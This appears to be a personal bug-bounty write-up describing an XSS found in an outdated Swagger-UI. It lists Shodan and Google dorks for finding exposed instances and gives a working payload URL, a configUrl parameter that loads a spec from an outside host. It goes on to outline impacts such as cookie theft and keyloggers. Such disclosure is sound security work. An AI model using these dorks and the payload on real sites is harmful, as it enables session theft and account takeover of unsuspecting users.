 ```yaml
---
title: "My first Valid bug :Unveiling Cross-Site Scripting in Swagger-ui"
date: 2023-10-30
draft: false
series: "Bug Hunting"
tags: ["bug bounty hunting", "write-up"]
---
```


---

السَّلَامُ عَلَيْكُمْ و رحمة الله وبركاته

peace be upan you ! : 💐

Welcome to my first write-up 📝, where I share the exciting tale of my discovery and reporting of a simple yet impactful XSS bug in Swagger-ui.

so, lets go on and start with a short intro about the vulnerablity!

## Swagger-UI’s XSS :

Swagger-UI, a popular tool for designing, building, and documenting APIs, provides a user-friendly interface for developers to explore and interact with API endpoints. However, like any web application, Swagger-UI is not immune to security vulnerabilities.
and The root cause is that Swagger-UI allows users to provide a URL for an API specification, such as a YAML or JSON file in outdated version of DomPurify, an XML sanitizer library for HTML, MathML, and SVG. . To view and render them, you add a query parameter. It would be possible to trigger an XSS attack by loading a malicious!!

- for more about this vuln, please check the References !

### The Story Unfolds: The Journey Begins ✨ !!

so During my 🔎 of the Swagger-ui application, that I found via shodan by using specific Dorks! Here are a few dorks that you can use to search in Shodan for Swagger-UI:

```
"Swagger-UI"
"Swagger-UI title:Swagger UI"
"Swagger-UI port:80"
"Swagger-UI http.component:swagger-ui"
"Swagger-UI http.favicon.hash:-116323821"

```

also u can use Google Dorks :

```
site:example.com intitle:"Swagger UI"
inurl:"swagger-ui.html"
intitle:"index of" swagger-ui
intext:"Powered by Swagger UI"
site:github.com inurl:swagger-ui
```

so ! I stumbled upon a potential XSS vulnerability. By appending a specific payloads to the Swagger UI URL, I was able to inject and execute arbitrary JavaScript code. The steps to reproduce the bug were as follows:

- Visit the Swagger UI URL:

```
 https://127.0.0.1/swagger/index.html.
```

- Append the following payload to the URL _ I used this payload as shown below _:

```
?configUrl=https://tearful-earth.surge.sh/test.json.
```

- The resulting URL should be:

```
 https://127.0.0.1/swagger/index.html?configUrl=https://tearful-earth.surge.sh/test.json.
```

![image tooltip here](https://github.com/khawla-abdulsattar/poison/blob/main/static/images/dhey.PNG?raw=true)

## Impact of Cross-Site Scripting:

Cross-site scripting attacks can have severe consequences and enable attackers to achieve various malicious goals. Some of the potential impacts include:

- Cookie Theft: Attackers can exploit XSS vulnerabilities to steal users' cookies, which may contain sensitive information such as session tokens or login credentials. With this information, the attacker can impersonate the victim and gain unauthorized access to their accounts.

- Local Storage Access: XSS can be used to access and extract data stored in the victim's local storage. This could include personal information, sensitive documents, or any other data stored by the web application.

- Keyloggers: Attackers can leverage XSS to inject keylogging scripts, enabling them to capture keystrokes made by users. This can lead to the theft of sensitive information, such as passwords or credit card details.

- Phishing Attacks: XSS vulnerabilities can be exploited to display convincing phishing forms or pop-ups to users, tricking them into revealing their credentials or other sensitive information.

---

As I conclude this article, I hope that my journey of uncovering an XSS bug has ignited a spark within you ⚡: .
Whether you're a security professional or just starting your exploration of the web security realm, remember that every bug, no matter how small or seemingly insignificant, has the potential to make a significant impact.

###### thanks fot reading 💜👾

## References :

- https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://portswigger.net/daily-swig/widespread-swagger-ui-library-vulnerability-leads-to-dom-xss-attacks
